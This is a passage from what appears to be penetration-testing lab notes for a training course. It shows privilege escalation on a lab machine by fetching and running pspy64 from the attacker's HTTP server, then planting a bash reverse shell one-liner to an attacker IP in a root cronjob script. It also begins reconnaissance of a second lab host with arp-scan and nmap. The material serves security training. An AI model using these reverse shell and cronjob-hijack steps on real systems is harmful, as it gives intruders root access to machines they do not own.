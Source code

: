 - Download `pspy64` and move it into the `~/tools` dir where Python HTTP server is running

```bash
# Target
cd /tmp
wget http://192.168.31.131:8000/pspy64
chmod +x pspy64
./pspy64

# Wait for the backup.sh to run
```

![](.gitbook/assets/2024-07-14_12-01-59_615.png)

- Run a bash reverse shell one liner
  - [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
# Kali VM
nc -nvlp 8081

# Target
# Insert the one liner reverse shell into the backup.sh script
cd
nano backup.sh

	bash -i >& /dev/tcp/192.168.31.131/8081 0>&1
```

- Since the script will run as `root` user's cronjob, root shell will be executed

![root reverse shell](.gitbook/assets/2024-07-14_12-07-27_617.png)

---

## Dev

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
sudo arp-scan -l
# Dev IP 192.168.31.130

mkdir -p ~/tcm/peh/dev
cd ~/tcm/peh/dev/
```

```bash
sudo nmap -p- -A -T4 192.168.31.130 -oA dev
```
